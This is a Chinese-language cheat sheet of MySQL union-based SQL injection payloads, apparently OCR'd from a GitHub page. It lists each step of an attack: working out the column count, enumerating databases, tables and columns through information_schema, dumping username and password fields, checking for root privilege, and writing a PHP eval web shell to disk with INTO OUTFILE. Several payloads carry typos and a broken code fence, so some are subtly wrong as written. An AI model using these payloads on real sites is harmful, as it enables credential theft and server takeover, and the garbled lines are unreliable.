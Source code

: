 - 爆字段
```
    order by 猜测的字段数  
```
- 匹配字段
```
    and 1=1 union select 1,2,3,......,n  
```
- 获取显示字段
```
    and 1=2 union select 1,2,3,4......n  
```
- 利用内置函数爆数据库信息
```
    version() database() user()  
```
   例如：
```
    and 1=2 union all select version()  
    and 1=2 union all select database()  
    and 1=2 union all select   user()  
```
- 操作系统信息
```
    and  1=2 union  all select  @@global.version_compile_os from  mysql.user  
```
- 数据库权限
```
    and ord(mid(user(),1,1))=114              返回正常则说明为root  
```
- 爆库（mysql>5.0）

Mysql 5.0以上版本内置库information_schema，存储着mysql的所有数据库和表结构信息。
```
    and 1=2 union selec 1,2,3,SCHEMA_NAME,5,6,7,8,9,10  from  information_schema.SCHEMA limit 0,1  
```
- 猜表
```
    and  1=2 union select 1,2,3,TABLE_NAME,5,6,7,8,9,10 from information_schema.TABLES where TABLE_SCHEMA=数据库（十六进制） limit 0（开始的记录，0为第一个开始记录），1（显示1条记录）  
```
- 爆字段
```
    and 1=2 union select 1,2,3,COLUMN_NAME,5,6,7,8,9,10 from information_schemation.COLUMNS where TABLE_NAMEE=表名（十六进制） limit 0 ,1  
```
- 爆密码
```
    and 1=2 union select 1,2,3,用户名段，5,6,7,8,9 from 表名 limit 0,1  
```
- 一个字段显示两个数据内容）：
```
Union select  1,2,3,concat(用户名段，0x3c，密码段)，5,6,7,8,9 form  表名 limit 0,1
- 直接写马（Root权限）
```

条件：1、知道站点物理路径,2、有足够大的权限（可以用select …. frommysql.user测试）,3、magic_quotes_gpc()=OFF
```
    select ‘<?php eval_r($_POST[cmd])?>'into outfile ‘物理路径'   and  1=2   union  all   select   一句话HEX值   into  outfile   '路径'  
```

